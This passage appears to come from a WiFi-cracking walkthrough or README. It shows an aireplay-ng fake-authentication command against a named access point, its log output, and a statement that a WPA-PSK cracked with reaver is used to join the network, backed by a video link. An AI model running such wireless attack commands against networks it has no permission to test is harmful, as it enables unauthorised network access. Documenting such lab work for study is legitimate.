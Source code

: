     </details>

    <details>
        <summary> aireplay-ng logs </summary>

        ```bash
        root@kali:~# aireplay-ng --fakeauth 30 -a B4:3D:08:2D:91:41 -h 8C:90:2D:CA:CE:44 wlan0
        13:43:55  Waiting for beacon frame (BSSID: B4:3D:08:2D:91:41) on channel 1

        13:43:55  Sending Authentication Request (Open System) [ACK]
        13:43:55  Authentication successful
        13:43:55  Sending Association Request [ACK]
        13:43:55  Association successful :-) (AID: 1)

        13:44:10  Sending keep-alive packet
        13:44:11  Got a deauthentication packet! (Waiting 3 seconds)
        ```
    </details>

- **We will use the WPA-PSK at the end of the `reaver` logs to connect to the wifi. Below is the video proof that we can connect to the wifi using the cracked WPA-PSK.**

    [![Watch the video](../imgs/238353467-897cd757-ea1f-492d-aaf9-6d1674177e08.gif)](https://youtu.be/stE-FNupm0o)
